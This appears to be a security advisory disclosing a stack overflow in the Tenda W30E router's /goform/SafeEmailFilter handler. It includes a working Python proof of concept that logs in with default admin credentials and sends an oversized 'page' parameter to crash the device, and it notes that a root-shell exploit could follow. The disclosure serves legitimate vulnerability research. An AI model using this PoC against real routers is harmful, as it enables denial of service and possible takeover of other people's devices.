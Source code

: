 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/SafeEmailFilter/img/2.png)

In /goform/SafeEmailFilter, the page will be spliced into s by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'page=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/SafeEmailFilter/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell
